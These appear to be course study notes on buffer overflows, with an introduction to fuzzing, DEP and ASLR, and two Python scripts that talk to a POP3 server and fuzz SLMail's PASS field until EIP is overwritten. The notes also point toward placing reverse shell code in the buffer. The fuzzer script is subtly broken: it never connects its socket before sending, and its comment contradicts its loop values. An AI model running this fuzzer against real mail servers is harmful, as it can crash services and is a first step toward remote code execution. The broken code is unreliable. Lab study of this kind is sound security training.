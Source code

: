 # Buffer Overflows

There are three main ways of identifying flaws in applications.
  - If the source code of the application is available, then source code review is probably the easiest way to identify bugs.
  - If the application is closed source, you can use reverse engineering techniques, or fuzzing, to find bugs.

## Fuzzing

  - Fuzzing involves sending malformed data into application input and watching for unexpected crashes.
  - An unexpected crash indicates that the application might not filter certain input correctly. This could lead to discovering an exploitable vulnerability.

#### A Word About DEP and ASLR

  - __DEP__ (Data Execution Prevention) is a set of hardware, and software, technologies that perform additional checks on memory, to help prevent malicious code from running on a system.
  - The primary benefit of __DEP__ is to help prevent code execution from data pages, by raising an exception, when execution occurs.
  - __ASLR__ (Address Space Layout Randomization) randomizes the base addresses of loaded applications, and DLLs, every time the Operating System is booted.
#### Interacting with the POP3 Protocol

  > if the protocol under examination was unknown to us, we would either need to look up the RFC of the protocol format, or learn it ourselves, using a tool like Wireshark.

  - To reproduce the netcat connection usage performed earlier in the course using a Python script, our code would look similar to the following

    ```python
    #!/usr/bin/python
    import socket
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    try:
      print "\nSending vil buffer..."
      s.connect(('10.0.0.22',110))     #connect to IP, POP3 port
      data = s.recv(1024)     # receive banner
      print data     # print banner

      s.send('USER   test' +'\r\n')     # end username "test"
      data = s.recv(1024)     # receive reply
      print data     # print reply

      s.send('PASS test\r\n')     # send password "test"
      data = s.recv(1024)     # receive reply
      print data     # print reply

      s.close()     # close socket
      print "\nDone!"

    except:
      print "Could not connect to POP3!”
    ```

  - Taking this simple script and modifying it to fuzz the password field during the login process is easy. The resulting script would look like the following.

    ```python
    #!/usr/bin/python
    import socket

    # Create an array of buffers, from 10 to 2000, with increments of 20.
    buffer=["A"]
    counter=100

    while len(buffer) <= 30:
      buffer.append("A"*counter)
      counter=counter+200

    for string in buffer:
      print "Fuzzing PASS with %s bytes" %len(string)
      s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
      s.recv(1024)
      s.send('USER test\r\n')
      s.recv(1024)
      s.send('PASS ' + string + '\r\n')
      s.send('QUIT\r\n')
      s.close()
    ```
    - Run this script against your SLMail instance, while attached to __Immunity Debugger__.
    - The results of running this script shows that the __Extended Instruction Pointer (EIP)__ register has been overwritten with our input buffer of A’s (the hex equivalent of the letter A is \x41).
    - This is of particular interest to us, as the EIP register also controls the execution flow of the application.
    - This means that if we craft our exploit buffer carefully, we might be able to divert the execution of the program to a place of our choosing, such as a into the memory where we can introduce some reverse shell code, as part of our buffer.
![Execution Halted in OllyDbg](/images/33.png)

